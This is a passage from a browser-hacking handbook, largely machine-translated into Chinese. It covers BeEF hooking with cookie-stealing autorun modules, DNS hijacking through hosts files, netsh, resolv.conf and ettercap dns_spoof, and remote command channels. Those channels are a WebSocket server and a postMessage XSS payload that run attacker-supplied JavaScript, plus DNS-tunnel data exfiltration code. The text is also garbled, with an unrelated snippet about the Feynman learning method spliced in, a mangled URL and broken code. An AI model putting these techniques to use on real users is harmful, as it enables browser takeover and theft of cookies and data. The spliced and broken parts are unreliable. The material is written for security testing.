Second, you need to update the autorun.rb file. This specifies what modules to run as soon as new browsers are connected (hooked) into BeEF. You can see within the @autorun_mods array the modules that will be executed automatically.

```
# RESTful API root endpoints
ATTACK_DOMAIN = "127.0.0.1"
RESTAPI_HOOKS = "http://" + ATTACK_DOMAIN + ":3000/api/hooks"
RESTAPI_LOGS = "http://" + ATTACK_DOMAIN + ":3000/api/logs"
RESTAPI_MODULES = "http://" + ATTACK_DOMAIN + ":3000/api/modules"
RESTAPI_ADMIN = "http://" + ATTACK_DOMAIN + ":3000/api/admin"

BEEF_USER = "beef"
BEEF_PASSWD = "beef"

@autorun_mods = [
{ 'Invisible_iframe' => {'target' => 'http://192.168.50.52/' }},
  { 'Browser_fingerprinting' => {}},
  { 'Get_cookie' => {}},
  { 'Get_system_info' => {}}
]
```

With these two files configured, you’re ready to go. Perform the next steps in new terminal windows:

Level1 **1.** Start BeEF (from within the appropriate folder): ruby beef. **2.** Start Shank: ruby shank.rb <target network address>. **3.** Start the autorun script: ruby autorun.rb. 

/Level1

After this is all done, you should see activity occurring in all three terminal windows. Of course, you can access the BeEF admin interface directly too: http://127.0.0.1:3000/ui/panel/.

Taylor Pennington of CORE Security created a tool that performed similar ARP poisoning attacks combined with BeEF injection. You can view g0tBeEF here: [`github.com/kimj-1/g0tBeEF`](https://github.com/kimj-1/g0tBeEF).

### DNS Poisoning

Although ARP poisoning is a great way to insert your computer between nodes on a local network, it doesn’t work in every situation. Another method to perform MitM attacks is to poison Domain Name System (DNS) records.

What ARP is to converting an IP address to a MAC address, DNS is to converting a DNS name into an IP address. Simply put, the DNS converts browserhacker.com into the IP address 213.165.242.10.

DNS works at multiple levels. First, the local DNS process within your computer refers to its own cache and hosts file. If an entry is not found, it then performs a DNS request to its configured DNS server.

This gives you various places in which to poison DNS entries. For example, you can target a top-level DNS server, a lower-level DNS server, or even the target’s local DNS cache. If you can control any of these, you will be able to provide your own responses to the target. This means you’ll have an avenue to run your initiation code.

 start feature 
* * *


# **Tampering with a Client’s DNS Settings**

根据操作系统的不同，针对目标的 DNS 设置进行篡改的方法也有几种不同的实现方式。`Windows` 在现代 Windows 系统中，你可以通过将任意 DNS 条目添加到 `C:\Windows\System32\drivers\etc\hosts` 文件来插入自定义 DNS 记录。大多数情况下，需要管理员权限来更新该文件。条目格式为：`<IP 地址> <DNS 名称>`。例如，要让目标在尝试加载 Google 时被引导到你的服务器，只需在该文件中添加：

``` 
<你的 IP 地址> www.google.com
```

除了向本地 hosts 文件中插入任意记录外，还可以通过命令行更新特定网络接口的 Windows DNS 设置。你可以在受害机器上通过编写一个简单的批处理文件，或编译一个小程序来执行此操作。

``` 
netsh interface ip set dns name="Local Area Connection"\
 source=static addr=<你的恶意 DNS 服务器 IP>
```

可以将其简化为：

``` 
netsh interface ip set dns "Local Area Connection" static <IP>
```

`Linux/Unix/OS X` Linux、UNIX 和 OS X 系统将 hosts 文件存放在 `/etc/hosts`。该文件的格式与 Windows 类似，并且需要 root 权限即可更新。这些操作系统的 DNS 设置始终依赖于 `/etc/resolv.conf` 文件。拥有正确权限时，可以通过以下方式更新该文件：

``` 
echo "nameserver <你的恶意 DNS 服务器 IP>" > /etc/resolv.conf
```

* * *

# **从本地网络层面影响 DNS**

利用 ARP 中毒攻击，如上文所述，你可以在本地网络中将自己的机器伪装成 DNS 服务器。

Ettercap 提供一个名为 DNSSpoof 的模块，可自动执行此类攻击。首先，修改 `etter.dns` 文件以包含你的恶意 DNS 条目。在 Linux 系统上该文件通常位于 `/usr/share/ettercap/etter.dns`，而在 OSX 上则一般位于 `/opt/local/share/ettercap/etter.dns`。执行攻击时，你需要像之前一样运行 ettercap，但需指定插件：

``` 
ettercap -T -Q -P dns_spoof -M arp:remote \
 -i <网络接口> /<要中毒的目标 IP> //
```

在上述所有示例中，一旦你控制了目标机器或网络的 DNS，就可以冒充任何试图通过名称访问的计算机或服务器。为了利用这种中间人（MitM）技术注入你的初始代码，建议先监控正常的网页流量，看是否存在代理服务器。若存在，代理是理想的目标，因为本地浏览器的流量本身就会指向该服务器。

## **利用缓存**

Robert Hansen 发现浏览器在缓存非公共可路由 IP 地址（即 `10.0.0.0/8`、`172.16.0.0/12` 和 `192.168.0.0/16` 范围）时存在安全漏洞。Hansen 表明，在特定条件下，可以在源站中植入恶意逻辑。

随后，当目标在使用相同非可路由地址的网络中访问时，此攻击可让你在不破坏同源策略（SOP）的前提下访问内部服务器。

例如，目标可能在一家网络咖啡馆使用服务，而你同样拥有该网络的访问权限。利用 ARP 中继技术，你可以在网络中篡改所有 HTTP 请求（如前文所述）。你提前部署了一个 BeEF 服务器位于互联网上：

**Level1 1.** 中继攻击进行期间，等待目标发出任意 HTTP 请求。随后，在响应中插入多个 `<iframe>`，加载你控制的每个目标 IP 的内容。  
**2.** 返回你精心构造的数据，使其在浏览器中被缓存。每个 `<iframe>` 都包含指向你的 BeEF 服务器的初始化指令。  
**3.** 当目标离开公共网络并重新连接到办公室或家庭网络时，浏览器仍会继续向 BeEF 服务器轮询。  
**4.** 若目标随后访问私有 IP 地址（如其路由器的管理页面），之前缓存的内容将在该来源下执行。

/Level1

在特定的 VPN 条件下也可利用这些情况，但上述场景更为常见。之所以可能，是因为 JavaScript 在浏览器内部执行后，可能超出浏览器缓存，甚至在某些情况下影响 DNS 缓存。

本节展示了无需发现 Web 应用漏洞，即可在浏览器中执行恶意代码的可能性。有时，仅仅拥有网络访问权限就足以将初始指令注入目标浏览器。

# **总结**

本章重点介绍了在利用浏览器信任时所面临的第一道障碍。我们尽力涵盖了恶意代码进入浏览器的多种方式，但这些方法并非 exhaustive。随着浏览器技术的不断演进，攻击面也会随之起伏——快速扩张的互联网、推动所有事物上线的趋势等因素都会影响其规模。

你学习了各种方法，每一种都旨在展示实现目标的主要技术与技巧。一旦这些“闸门”打开，你可能会惊讶于浏览器愿意向你提供多少信息。

当然，执行初始指令只是两个主要障碍中的第一个。你的下一个挑战是建立持久的浏览器通信通道。这将是你接下来的浏览器黑客之旅的下一步，将在下一章中进一步探讨。

# **问题**

Level1 **1.** 攻击者若成功在浏览器中执行代码，可能会执行哪些操作？  
**2.** 请描述 XSS 攻击与常规 XSS 的主要区别。  
**3.** 哪种浏览器控制可阻止 XSS 执行？  
**4.** 请指出一个著名的 XSS “病毒”，并说明其传播方式。  
**5.** 请描述一种攻击者可以入侵网站并植入恶意代码的方法。  
**6.** 在什么情况下可以使用 sslstrip？  
**7.** 请描述 ARP 中毒（ARP spoofing）。  
**8.** 网络钓鱼（phishing）与垃圾邮件（SPAM）有何区别？  
**9.** 请用简要步骤说明如何进行社会工程攻击。  
**10.** 请描述一种物理“诱饵”技术。

/Level1

答案请参考书籍网站 [`browserhacker.com/answers`](https://browserhacker.com/answers) 或维基网站 [www.wiley.com/go/browserhackershandbook](http://www.wiley.com/go/browserhackershandbook)

**Notes**

1\. Netscape. (1995). Netscape and Sun announce JavaScript for enterprise networks and the Internet. Retrieved February 23, 2013 from [`web.archive.org/web/20070916144913/http://wp.netscape.com/newsref/pr/newsrelease67.html`](http://web.archive.org/web/20070916144913/http://wp.netscape.com/newsref/pr/newsrelease67.html)

2\. Carnegie Mellon University. (2000). CERT® Advisory CA-2000-02 Malicious HTML Tags Embedded in Client Web Requests. Retrieved February 23, 2013 from [`www.cert.org/advisories/CA-2000-02.html`](http://www.cert.org/advisories/CA-2000-02.html)

3\. Jeremiah Grossman. (2006). The origins of Cross-Site Scripting (XSS). Retrieved February 23, 2013 from [`jeremiahgrossman.blogspot.com.au/2006/07/origins-of-cross-site-scripting-xss.html`](http://jeremiahgrossman.blogspot.com.au/2006/07/origins-of-cross-site-scripting-xss.html)


4. `Jon Oberheide`。 (2011)。 How I Almost Won Pwn2Own via XSS。 Retrieved March 3, 2013 from [`http://jon.oberheide.org/blog/2011/03/07/how-i-almost-won-pwn2own-via-xss/`](http://jon.oberheide.org/blog/2011/03/07/how-i-almost-won-pwn2own-via-xss/)

5. `Roi Saltzman`。 (2009)。 Google Chrome Universal XSS Vulnerability。 Retrieved March 4, 2013 from [`http://blog.watchfire.com/wfblog/2009/04/google-chrome-universal-xss-vulnerability-.html`](http://blog.watchfire.com/wfblog/2009/04/google-chrome-universal-xss-vulnerability-.html)

6. `Wade Alcorn`。 (2005)。 The Cross-site Scripting Virus。 Retrieved February 23, 2013 from [`http://www.bindshell.net/papers/xssv.html`](http://www.bindshell.net/papers/xssv.html)

7. `Robert Hansen`。 (2008)。 Diminutive Worm Contest Wrapup。 Retrieved February 23, 2013 from [`http://ha.ckers.org/blog/20080110/diminutive-worm-contest-wrapup/`](http://ha.ckers.org/blog/20080110/diminutive-worm-contest-wrapup/)

8. `Mario Heiderich`, `Jorg Schwenk`, `Tilman Frosch`, `Jonas Magazinius`, `Edward Yang`。 (2013)。 mXSS attacks: attacking well-secured web applications by using innerHTML mutations。 Retrieved October 19, 2013 from [`https://cure53.de/fp170.pdf`](https://cure53.de/fp170.pdf)

9. `Ryan Barnett`。 (2013)。 ModSecurity XSS Evasion Challenge Results。 Retrieved February 23, 2013 from [`http://from%20http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html`](http://from%20http://blog.spiderlabs.com/2013/09/modsecurity-xss-evasion-challenge-results.html)

10. `Gareth Heyes`。 (2012)。 XSS technique without parentheses。 Retrieved February 23, 2013 from [`http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/`](http://www.thespanner.co.uk/2012/05/01/xss-technique-without-parentheses/)

11. `Matt Johansen` and `Jeremiah Grossman`。 (2013)。 Million Browser Botnet。 Retrieved October 19, 2013 from [`https://media.blackhat.com/us-13/us-13-Grossman-Million-Browser-Botnet.pdf`](https://media.blackhat.com/us-13/us-13-Grossman-Million-Browser-Botnet.pdf)

12. `Andrew Levin`。 (2007)。 File:PhishingTrustedBank.png。 Retrieved February 23, 2013 from [`http://en.wikipedia.org/wiki/File:PhishingTrustedBank.png`](http://en.wikipedia.org/wiki/File:PhishingTrustedBank.png)

13. `Maltego`。 (2012)。 Maltego: What is Maltego?。 Retrieved February 23, 2013 from [`http://www.paterva.com/web6/products/maltego.php`](http://www.paterva.com/web6/products/maltego.php)

14. `Christian Martorella`。 (2013)。 theHarvester information gathering。 Retrieved February 23, 2013 from [`http://code.google.com/p/theharvester/`](http://code.google.com/p/theharvester/)

15. `BBC`。 (2004)。 Passwords revealed by sweet deal。 Retrieved February 23, 2013 from [`http://news.bbc.co.uk/2/hi/technology/3639679.stm`](http://news.bbc.co.uk/2/hi/technology/3639679.stm)

16. `John Leyden`。 (2012)。 That square QR barcode on the poster? Check it’s not a sticker。 Retrieved February 23, 2013 from [`http://www.theregister.co.uk/2012/12/10/qr_code_sticker_scam/`](http://www.theregister.co.uk/2012/12/10/qr_code_sticker_scam/)

17. `Google`。 (2012)。 Google Chart Tools。 Retrieved March 3, 2013 from [`https://developers.google.com/chart/`](https://developers.google.com/chart/)

18. `Google`。 (2012)。 Safe Browsing API。 Retrieved March 3, 2013 from [`https://developers.google.com/safe-browsing/`](https://developers.google.com/safe-browsing/)

19. `Amit Klein`。 (2010)。 The Golden Hour of Phishing Attacks。 Retrieved February 23, 2013 from [`http://www.trusteer.com/blog/golden-hour-phishing-attacks`](http://www.trusteer.com/blog/golden-hour-phishing-attacks)

20. `Limor S. Kessem`。 (2013)。 Laser Precision Phishing--Are You on the Bouncer’s List Today?。 Retrieved February 23, 2013 from [`http://blogs.rsa.com/laser-precision-phishing-are-you-on-the-bouncers-list-today/`](http://blogs.rsa.com/laser-precision-phishing-are-you-on-the-bouncers-list-today/)

21. `Doug MacDonald` and `Derek Manky`。 (2009)。 Zeus: God of DIY Botnets。 Retrieved October 19, 2013 from [`http://www.fortiguard.com/analysis/zeusanalysis.html`](http://www.fortiguard.com/analysis/zeusanalysis.html)

22. `Scott Fluhrer`, `Itsik Mantin` and `Adi Shamir`。 (2001)。 Weaknesses in the Key Scheduling Algorithm of RC4。 Retrieved February 23, 2013 from [`http://aboba.drizzlehosting.com/IEEE/rc4_ksaproc.pdf`](http://aboba.drizzlehosting.com/IEEE/rc4_ksaproc.pdf)

23. `Thomas d’Otreppe`。 (2012)。 Aircrack-ng。 Retrieved February 23, 2013 from [`http://www.aircrack-ng.org/doku.php?id=Main`](http://www.aircrack-ng.org/doku.php?id=Main)

24. `Dino A. Dai Zovi` and `Shane Macaulay`。 (2006)。 KARMA Wireless Client Security Assessment Tools。 Retrieved February 23, 2013 from [`http://www.theta44.org/karma/`](http://www.theta44.org/karma/)

25. `Russell Davies`。 (2012)。 Upside-Down-TernetHowTo。 Retrieved February 23, 2013 from [`https://help.ubuntu.com/community/Upside-Down-TernetHowTo`](https://help.ubuntu.com/community/Upside-Down-TernetHowTo)

26. `Pete Lamonica`。 (2013)。 Siri Proxy。 Retrieved February 23, 2013 from [`https://github.com/plamoni/SiriProxy`](https://github.com/plamoni/SiriProxy)

27. `Alberto Ornaghi`, `Marco Valleri`, `Emilio Escobar`, `Eric Milam`, and `Gianfranco Costamagna`。 (2013)。 Ettercap — A suite for man in the middle attacks。 Retrieved February 23, 2013 from [`https://github.com/Ettercap/ettercap`](https://github.com/Ettercap/ettercap)

28. `Dug Song`。 (2002)。 Dsniff。 Retrieved February 23, 2013 from [`http://monkey.org/~dugsong/dsniff/`](http://monkey.org/~dugsong/dsniff/)

29. `Ryan Linn` and `Steve Ocepek`。 (2012)。 Hookin’ Ain’t Easy--BeEF Injection with MITM。 Retrieved February 23, 2013 from [`http://media.blackhat.com/bh-us-12/Briefings/Ocepek/BH_US_12_Ocepek_Linn_BeEF_MITM_WP.pdf`](http://media.blackhat.com/bh-us-12/Briefings/Ocepek/BH_US_12_Ocepek_Linn_BeEF_MITM_WP.pdf)

30. `Robert Hansen`。 (2009)。 RFC1918 Caching Security Issues。 Retrieved March 6, 2013 from [`http://www.sectheory.com/rfc1918-security-issues.htm`](http://www.sectheory.com/rfc1918-security-issues.htm)

# *Chapter 3*

# *Retaining Control*

There is limited value in getting your foot in the door if that door gets slammed within moments. In Chapter 2, you learned how to get your foot in the door. Now you need to learn how to keep that door open. In hacking terms, this means that once you have captured the initial control of the browser, you will need to retain it. This is where the Retaining Control phase of the browser hacking methodology comes in.

Retaining control over your target can be categorized into two broad areas. These are Retaining Communication and Retaining Persistence. The primary concept of retaining a communication channel is based on establishing a mechanism to retain control with a targeted browser, or better yet, multiple browsers. Retaining persistence covers techniques that allow the communication channel to remain active despite any actions the user undertakes.

As you will see in the following chapters, many attacks need time for execution, some on the order of seconds. These timing issues are compounded when executing chained attacks, where multiple actions are combined together. Having a stable communication channel is a critical requirement for any serious browser hacking activity. Without it, your time will run out and you will be back to square one.

This chapter covers numerous techniques for retaining control of your target browser to give you time to complete your attack. However, you should not consider the methods an exhaustive list. You might already know some of them; others are less known, and some will work only on specific browser types and versions.

# Understanding Control Retention

Retaining control of your target is trickier than just executing your initial instructions. Unless you’re able to somehow inject code into every page, you will lose control when the target navigates away. Ideally, retaining your control over a browser should take place not only in the face of network disconnections, but regardless of what sites the user may be visiting.


-   [费曼学习法](https://wiki.example.org/feynmans_learning_method)的灵感源于诺贝尔物理奖获得者**Richard Feynman**。

1.  运用费曼技巧，你只需花上`20 min`就能深入理解知识点，而且记忆深刻，*难以遗忘*。

```
if (condVar > someVal) {console.log("xxx")}
```


-   [闭包非常适合用于添加新的动态代码，因为在闭包内部声明的私有变量（使用 `var` 声明）隐藏在全局作用域之外。使用闭包，你可以将环境数据与在该数据上运行的函数关联起来。]

-   如果你多次提交前面的代码，将其逻辑封装进闭包是强制性的，以“隔离”新代码到其自身的函数中。按照 BeEF 的分类学，剩余的示例被称为 **command modules**（命令模块），因为它们是浏览器可以执行的新命令。

-   闭包的概念可以扩展，用于创建一个包装器，向堆栈中添加命令模块。每当轮询请求完成后，`stack.pop()` 确保移除堆栈的最后一个元素，然后执行该元素。

-   下面的代码是该思路的样本实现。为了简洁，锁对象和 `poll()` 函数已被排除：

``` 
/**
 * 命令堆栈。
 */
`commands`: new `Array()`,

/**
 * 包装器。将命令模块压入命令堆栈。
 */
`execute`: function(`fn`) {
  this.`commands`.push(`fn`);
},

/**
 * 轮询操作。如果响应不为 0，则调用 execute_commands()
 */
`get_commands`: function() {
try {
  this.`lock` = true;
  // 向 server_host 轮询新命令
  poll(`server_host`, function(response) { 
   if (response.body != null && response.body.length > 0)
    execute_commands();
  });
  } catch(e){
    this.`lock` = false;
    return;
  }
  this.`lock` = false;
},

/**
 * 执行收到的命令（如果有）。
 */
`execute_commands`: function() {
  if(`commands`.length == 0) return;
  this.`lock` = true;
  while(`commands`.length > 0) {
   `command` = `commands`.pop();
     try {
    `command`();
     } catch(e) {
       console.error(.message);
     }
  }
  this.`lock` = false;
}
```

- 如 `execute_commands()` 函数所示，如果命令栈不为空，每个条目都会被弹出并执行。可以在 `try` 块内部调用 `command()`，因为闭包使得命令模块被封装在自己的匿名函数中：

```
execute(function() {
var msg = "What is your password?";
  prompt(msg);
});
```

- 当函数在运行时动态声明而没有具体名称时，它被称为 **匿名函数**。这些函数在需要执行一次性的小段代码时非常有用，尤其是该代码只在一个地方使用。该概念常用于向事件处理器注册匿名函数，例如：

```
aButton.addEventListener('click',function(){alert('you clicked me');},false);
```

- 当前面的命令模块被加载到目标浏览器的 DOM 中后，`execute()` 包装器会被调用，随后在命令堆栈上会出现如下的新 JavaScript 代码层：

```
function() {
var msg = "What is your password?";
  prompt(msg);
}
```

- 最终，当 `commands.pop()` 执行并尝试运行弹出的代码时，会弹出一个提示框，显示 `msg` 的内容。

- 从样本实现代码中可以清楚地看到，`commands` 数组被实现为 **栈**（后进先出，LIFO）结构。你可能会疑惑为何不使用 **队列**（先进先出，FIFO）结构。这是一个合理的问题，主要取决于你的需求。如果需要在命令模块之间建立关联，使得后续模块的输入依赖于前一个模块的输出，则 FIFO 结构可能更合适。

## 使用跨源资源共享 (CORS)

CORS 允许 Web 应用通过稍微扩展同源策略 (SOP) 指定可以读取 HTTP 响应的不同来源。这对于想要让中央攻击服务器与访问不同来源的浏览器进行通信时特别有用。

BeEF 服务器通过以下附加 HTTP 响应头实现此功能，允许来自任何来源的跨源 POST 和 GET 请求：

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Methods: POST, GET
```

当使用 `XMLHttpRequest` 对象发送跨源 GET 请求时，如果目标源返回了上述头部，则可以完整读取 HTTP 响应。如果这些 CORS 头部未包含，同源策略会阻止 `XMLHttpRequest` 读取完整响应。

与任何规范一样，CORS 也存在实现 quirks。例如，Internet Explorer 直到第 10 版才提供完整支持，Opera Mini 完全不支持。IE 8 和 9 通过 `XDomainRequest` 对象部分支持 CORS，但这引入了以下限制：

* 仅完全支持 `http` 和 `https` 方案。

* 不允许自定义请求头。

* `content-type` 默认是 `text/plain`，且不能被覆盖。

* 无法发送 Cookie 和其他身份验证请求头。

使用 CORS 作为通信通道是一种有效的方式，用于维持被钩住浏览器与服务器之间的持续关系。但有时你可能希望使用更快的通道，例如 **WebSocket** 协议。下一节将探讨这一点。

## 使用 WebSocket 通信

WebSocket 协议是一种非常快速的全双工通信通道。它能够在无需显式轮询服务器的情况下，实现强事件驱动的行为。这并不意味着你可以完全抛弃内部的轮询机制——根据你的需求和通信架构的设计，保留某种形式的轮询可能会带来好处。

WebSocket API 是 Comet 等 AJAX 推送技术（如长轮询）的替代。Comet 需要额外的客户端库，而 WebSocket API 原生内置于现代浏览器中。正如图 3-2 所示，所有最新浏览器（包括 Internet Explorer 10）都原生支持 WebSocket 协议。唯一的例外是部分移动浏览器，如 Opera Mini 和 Android 原生浏览器。

start figure 

**Figure 3-2:** WebSocket 协议支持情况（常见浏览器）



end figure 

各种项目致力于为不支持 WebSocket 的浏览器添加兼容性。其中一个较为著名的项目是 **Socket.io**。Socket.io 仍然依赖客户端 JavaScript 库，但通过在运行时选择最佳传输方式，提供可靠的连接。Socket.io 支持的通道包括 WebSocket 协议、Adobe Flash Sockets、AJAX 长轮询以及 JSONP 轮询。

下面的代码展示了一个非常简单的 Ruby Web 服务器与被钩住浏览器之间的通信示例。该 Ruby WebSocket 服务器基于 **EM-WebSocket** 库（或 gem）实现，它是一个基于 EventMachine 的异步且高速实现：

``` 
require 'em-websocket'
EventMachine.run {
EventMachine::WebSocket.start(
 :host => "0.0.0.0",
 :port => 6666, 
 :secure => false) do |ws|
   begin
   ws.onmessage do |msg|
      p "Received:"
      p "->#{msg}"
      ws.send("alert(1);")
   end
   rescue Exception => e
      print_error "WebSocket error: #{e}"
   end
end
}
```

该代码段在 6666 端口绑定 WebSocket 服务器，等待客户端发送新消息。收到消息后，会向客户端发送一个新命令。你会发现这与前文的 `XMLHttpRequest` 示例相似：都使用了匿名函数 `function(){alert(1)}`。为了简化，这里没有使用之前的 `execute()` 包装器和闭包，但如果需要，这段代码可以轻松地改造以支持闭包方式的执行。


客户端代码使用原生 WebSocket API 编写。当 WebSocket 通道打开时，客户端会向服务器发送消息，请求更多指令。当服务器回复时，onmessage 事件会被触发，服务器发送的数据会被执行，从而创建一个新的 Function 对象。通过 WebSocket 通道传输的数据可以是 String、Blob 或 ArrayBuffer 类型。在此情况下，类型为 String，这意味着代码需要通过 new Function() 实例化后进行评估。我们假设攻击服务器和发送的 JavaScript 代码是默认受信任的，因此使用 Function 这种方式比使用 eval 更安全。

```
var socket = new WebSocket("ws://browserhacker.com:6666/");
socket.onopen = function(){
  console.log("Socket open.");
  socket.send("Server, send me commands.");
}  
socket.onmessage = function(msg){
  f = new Function(msg.data);
  f();
  console.log("Command received and executed.");
} 
```

如您在 Figure 3-2 所见，并非所有浏览器都原生支持 WebSocket API。假设默认使用 XMLHttpRequest 对象作为默认通信通道以支持更多浏览器，但您想将特定通道升级为使用 WebSocket 协议。首先，您需要确定 WebSocket 协议是否受支持。要验证其受支持，需要对浏览器的能力进行指纹识别。关于实现准确且全面的浏览器指纹识别的各种技术在第 6 章的 “Fingerprinting Browsers” 部分有所讨论；不过，您可以通过以下代码检查 WebSocket API 或 Mozilla 的 MozWebSocket 是否受支持：

```
hasWebSocket: function() {
  return !!window.WebSocket || !!window.MozWebSocket;
},
```

如果返回 true，则您可以在 JavaScript 中使用 WebSocket 协议。MozWebSocket 对象与 WebSocket 对象类似，由 Mozilla 在某些较旧的 Firefox 版本（版本 6 到 10）中通过前缀添加。标准 WebSocket 对象在 Firefox 版本 11 及以上无需添加前缀即可使用。

## 使用消息传递通信

如第 1 章所介绍，window.postMessage() 是另一种原生方法，用于实现跨源通信，同时遵守同源策略（SOP）。使用该方法需要进行初始化；首先，您需要在攻击服务器（本例为 browserhacker.com）上托管一个 IFrame 的内容：

```
<html>
<body>
<b>Embed me on a different origin</b>
<div id="debug">Ready to receive data...</div>
 <script>
     window.addEventListener("message", receiveMessage, false);
     function doClick() {
         parent.postMessage("Message sent from " + location.host,
           "http://browservictim.com");
     }
     var debug = document.getElementById("debug");
     function receiveMessage(event) {
         debug.innerHTML += "Data: " + event.data + "\n Origin: " +
          event.origin;
         parent.postMessage("alert(1)", event.origin);
     }
 </script>
</body>
</html>
```

接下来，您需要利用目标站点（假设为 browservictim.com）的 XSS 漏洞进行攻击，注入的 payload 需要包含 JavaScript 逻辑以及 IFrame 本身。创建的 IFrame 加载前面的代码片段。请注意，这里涉及 to_server IFrame 以及 post_msg() 和 receiveMessage() 函数：

```
<div id="debug"> </div>
  <div id="ui">
    <input type="text" id="v" />
    <input type="button" value="Send to server" onclick="post_msg();" />
    <iframe id="to_server"
     src="http://browserhacker.com/postMessage_server.html"></iframe>
   </div>
  <script type="text/javascript">
  window.addEventListener("message", receiveMessage, false);

  var infoBar = document.getElementById("debug");
  function receiveMessage(event) {
    infoBar.innerHTML += event.origin + ": " + event.data + "";
    new Function(event.data)();
  }

  function post_msg(domain) {
        var to_server = document.getElementById("to_server");
        to_server.contentWindow.postMessage("" + 
          eval(document.getElementById("v").value), 
            "http://browserhacker.com");
  }        
  </script>
```

如您在 Figure 3-3 所见，browservictim.com 域的 cookie 会被发送到 browserhacker.com，如图 3-3 所示。

 start figure 

**Figure 3-3:** Breakpoint on the framed attacker’s code



 end figure 

代码从 browserhacker.com 加载后，会接收来自不同源的数据，并回复额外的 JavaScript 代码，这些代码在 browservictim.com 上通过 new Function 创建后被评估。在前面的代码示例中，发送的简单 alert(1) 如 Figure 3-4 所示。

 start figure 

**Figure 3-4:** The response is evaluated and the JavaScript is executed



 end figure 

window.postMessage() 可以用于在不同窗口之间（如 IFrames、弹窗、pop‑under、标签页）进行通信。正如预期，各浏览器存在一些 quirks。在 Internet Explorer 8 及以上版本，window.postMessage() 只能用于 IFrames，而不能用于其他标签页或窗口。关于 postMessage() 跨浏览器支持情况的概览，请参见 Figure 3-5。

 start figure 

**Figure 3-5:** window.postMessage() 支持情况在常见浏览器中的表现



 end figure 

Internet Explorer 版本 8 到 10 只能部分支持 postMessage()，而 WebSocket 协议是完全受支持的（参见注 9）。这也是您可能希望将 postMessage() 设为主要通信通道的原因（前提是被钩浏览器不是 Internet Explorer）。

## 使用 DNS 隧道通信

如前所述，所有讨论过的通信通道均依赖 HTTP 协议。WebSocket 协议是例外，但其初始握手仍然依赖于一个被 HTTP 服务器解释为 Upgrade 请求的 HTTP 请求，例如：

```
GET /ws HTTP/1.1
Host: browserhacker.com
Upgrade: websocket
Connection: Upgrade
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
Origin: http://browservictim.com
Sec-WebSocket-Version: 13
```

除非您正在针对没有直接连接的浏览器（例如位于 HTTP 代理后面、会记录并可能检查内容的浏览器），否则这里没有问题。这时，基于 DNS 的通信通道可能会派上用场，并结合其他规避技术，以降低被检测的可能性。只有少数安全解决方案监控 DNS 请求，11 而且它们的效果往往受到质疑，因为大多数现代浏览器使用 DNS 预取（DNS prefetching）来提升加载未来资源的响应速度。

Kenton Born 在 2010 年的 BlackHat 会议上发表了研究 12，展示了如何利用浏览器自身的 DNS  covert channel。该方法在单向数据从浏览器到服务器的场景下非常有效，但如果通信需要双向进行，则实现会更加复杂。


-   [你可以创建一个基于 DNS 的单向数据泄漏通道，发送请求到精心构造的域名，这些域名由你受控的 DNS 服务器解析。该通道可以用于向客户端传递对称密钥，以便在随后的 HTTP 请求和响应中加密客户端与服务器之间交换的数据。例如，如果你想通过这种技术发送字符串 “ABCDE”，可以将其编码后作为子域名解析请求提交。如果你的 DNS 服务器解析 browserhacker.com，你只需请求一个图像资源即可发送数据负载，例如 。生成 _encodedData_ 的简单 JavaScript 函数可能如下：

``` 
encode_data = function(str) {
  var result="";
  for(i=0;i<str.length;++i) {
    result+=str.charCodeAt(i).toString(16).toUpperCase();
  }
  return result;
};

var data = "data_to_extrude_from_client_to_server";
var _encodedData_ = encodeURI(encode_data(data));
console.log(_encodedData_);
```

